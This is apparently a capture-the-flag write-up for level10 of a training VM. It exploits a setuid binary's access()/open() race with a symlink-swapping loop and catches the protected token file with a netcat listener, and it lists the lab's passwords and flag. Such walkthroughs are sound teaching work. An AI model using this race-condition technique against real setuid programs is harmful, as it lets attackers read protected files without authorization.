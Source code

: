 # Level10 - Flag10

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|         |                             |
| ------- | --------------------------- |
| level10 | `s5cAJpM8ev6XHw998pRWG728z` |
| flag10  | `woupa2yuojeeaaed06riuj63c` |
| token   | `feulo4b72j7edeahuete3no7c` |

## Steps to resolve on VM

1. Connect to `level10` user and notice there is an executable and a token file owned by `flag10` user

```bash
ssh level10@$SNOW_HOST -p 4242
# Enter the password

ls -l

> -rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10*
> -rw-------  1 flag10  flag10     26 Mar  5  2016 token
```

2. Check the files

```bash
./level10

> ./level10 file host
>        sends file to host if you have access to it
# We have here the file usage

./level10 token 127.0.0.1

> You do not have access to token
# Indeed, we don't have permissions. It does not work neither with a symbolic link.

echo abc > /tmp/abc
./level10 /tmp/abc 127.0.0.1

> Connecting to 127.0.0.1:6969 .. Unable to connect to host 127.0.0.1
# We discover here that the program uses the port 6969. Is it open ?
```

3. Listen the port 6969

Lets check listening ports :

```bash
netstat -tulpn | grep LISTEN

> tcp        0      0 0.0.0.0:4242            0.0.0.0:*               LISTEN      -
> tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN      -
> tcp6       0      0 :::4646                 :::*                    LISTEN      -
> tcp6       0      0 :::4747                 :::*                    LISTEN      -
> tcp6       0      0 :::80                   :::*                    LISTEN      -
> tcp6       0      0 :::4242                 :::*                    LISTEN      -
```

It appears that we are not listening the port 6969. We need to open this port to be able to receive the file sended by the program `level10`. We can use the tool `netcat` for this job.

```bash
netcat -lk 6969
# -l    listen
# -k    keep listening
```

The VM is now listening the port 6969.

We can check it with `netstat`

```bash
netstat -tulpn | grep 6969

> tcp        0      0 0.0.0.0:6969            0.0.0.0:*               LISTEN      <PID>/netcat
```

4. Send a file with `level10` program through host:6969

The port 6969 is now open. Lets try to send a file through

```bash
echo abc > /tmp/abc
./level10 /tmp/abc 0.0.0.0

> Connecting to 0.0.0.0:6969 .. Connection from 127.0.0.1 port 6969 [tcp/*] accepted
> .*( )*.
> Connected!
> Sending file .. abc
> wrote file!
```

It works perfectly.

But we still don't have the permission to token file.

```bash
./level10 ~/token 0.0.0.0

> You do not have access to /home/user/level10/token
```

5. Explore `level10` binary

At this moment we are stuck and we need to find a way to read the token content without permissions.

Lets explore level10 binary using `nm` to list external calls

```bash
nm -u level10

>         U access@@GLIBC_2.0
>         U connect@@GLIBC_2.0
>         U exit@@GLIBC_2.0
>         U fflush@@GLIBC_2.0
>         U htons@@GLIBC_2.0
>         U inet_addr@@GLIBC_2.0
>         U open@@GLIBC_2.0
>         U printf@@GLIBC_2.0
>         U puts@@GLIBC_2.0
>         U read@@GLIBC_2.0
>         U socket@@GLIBC_2.0
>         U strerror@@GLIBC_2.0
>         U write@@GLIBC_2.0
```

What is access ?

```bash
man access
```

> NAME <br />
> access - check real user's permissions for a file <br />

> DESCRIPTION <br />
> access() checks whether the calling process can access the file pathname. If pathname is a symbolic link, it is dereferenced.

> (...)

> NOTES <br /> > **Warning**: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a **security hole**, because **the user might exploit the short time interval between checking and opening the file** to manipulate it.

6. Exploit `access`' security hole

Lets exploit this security hole.

We have to exploit the _"short time interval between checking and opening the file"_

```bash
echo "not the token" > /tmp/isnottoken
while true; do
    ln -sf /tmp/isnottoken /tmp/token
    ln -sf ~/token /tmp/token
done
```

The symbolic link `/tmp/token` will swap very often between the file created by us and the token file, that is restricted.

We hope that access tool will authorize us to acceed to `/tmp/isnottoken` (the file created by us), and then (after changing the symlink reference) open `~/token`.

The behavior is random and needs some luck, so we need to launch multiple times the program to exploit the security hole.

```bash
for i in {1..30}; do
    ~/level10 /tmp/token 0.0.0.0
done
# Try again if necessary

> Connecting to 0.0.0.0:6969 .. .*( )*.
> Connected!
> Sending file .. not the token
> wrote file!
> You do not have access to /tmp/token
> Connecting to 0.0.0.0:6969 .. .*( )*.
> Connected!
> Sending file .. not the token
> wrote file!
> Connecting to 0.0.0.0:6969 .. .*( )*.
> Connected!
> Sending file .. woupa2yuojeeaaed06riuj63c # YEAH!
> wrote file!
```

After many tries, we can see a token: `woupa2yuojeeaaed06riuj63c` !

7. Get level flag

```bash
su flag10
# Enter password

> Don t forget to launch getflag !

getflag

> Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

---

## Sources

### Shell

- [Check ports in use](https://www.cyberciti.biz/faq/unix-linux-check-if-port-is-in-use-command/)
- [Man netcat](https://linux.die.net/man/1/nc)
- [Man nm](https://linux.die.net/man/1/nm)
- [Man access](https://linux.die.net/man/2/access)
